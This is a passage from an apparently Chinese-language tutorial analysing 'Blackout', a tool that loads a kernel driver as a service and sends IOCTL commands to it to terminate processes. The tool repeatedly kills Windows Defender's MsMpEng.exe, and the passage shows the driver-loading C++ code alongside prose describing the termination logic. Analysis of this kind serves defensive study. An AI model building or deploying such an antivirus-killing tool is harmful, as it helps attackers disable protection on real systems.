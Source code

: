 ```cpp
    }

    // Create the service
    hService = CreateServiceA(
        hSCM,
        serviceName,
        serviceName,
        SERVICE_ALL_ACCESS,
        SERVICE_KERNEL_DRIVER,
        SERVICE_DEMAND_START,
        SERVICE_ERROR_IGNORE,
        driverPath,
        NULL,
        NULL,
        NULL,
        NULL,
        NULL
    );

    if (hService == NULL) {
        CloseServiceHandle(hSCM);
        return (1);
    }

    printf("Service created successfully.\n");

    // Start the service
    if (!StartServiceA(hService, 0, nullptr))
    {
        CloseServiceHandle(hService);
        CloseServiceHandle(hSCM);
        return (1);
    }

    printf("Starting service...\n");

    CloseServiceHandle(hService);
    CloseServiceHandle(hSCM);

    return (0);
}
```



其次看下主函数代码的实现流程，先使用前面定义的LoadDriver函数加载驱动，再使用CreateFile打开驱动并得到其句柄。

得到驱动句柄后使用 `DeviceIoControl` 函数与驱动通信，发送`INITIALIZE_IOCTL_CODE` 指令初始化驱动，再发送`TERMINSTE_PROCESS_IOCTL_CODE` 指令来终止指定的进程

如果所给的进程 ID 对应的进程是 "MsMpEng.exe"（这是 Windows Defender 的进程），则程序会不断尝试终止它，毕竟MsMpEng.exe被杀死后还是会无限复活的

在这里我要补充一点，当调用 `CreateFile` 打开 "\\\\.\\Blackout" 时，实际上是在尝试打开一个与驱动程序相关联的设备。在Windows中，驱动程序可以创建一个设备并为其分配一个符号链接，这样用户模式的程序可以通过这个符号链接与驱动程序通信，从而允许后续的`DeviceIoControl` 调用来传递IO控制代码 (IOCTL) 和其他数据到驱动程序中
